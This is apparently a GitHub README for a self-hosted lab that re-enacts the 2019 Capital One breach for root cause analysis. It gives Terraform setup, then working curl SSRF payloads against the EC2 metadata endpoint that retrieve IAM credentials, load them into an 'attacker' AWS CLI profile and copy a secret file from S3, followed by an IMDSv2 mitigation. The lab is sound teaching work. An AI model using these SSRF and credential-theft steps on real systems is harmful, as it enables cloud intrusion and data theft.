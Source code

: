 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main: the tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

terraform fmt
terraform validate
terraform plan


5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

curl http://<public_ip>/

Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"


3. Navigate to Credentials:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

The output will be the role name: c-demo-role


4. Steal Credentials: 

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"


The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:

aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo
# Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:

aws s3 ls --profile c-demo


You should be able to see your unique bucket name

7. Exfiltrate Data: 

aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo

(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ls
   cat top_secret_file

#Mitigation

Enforce IMDSv2:

aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled

Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy
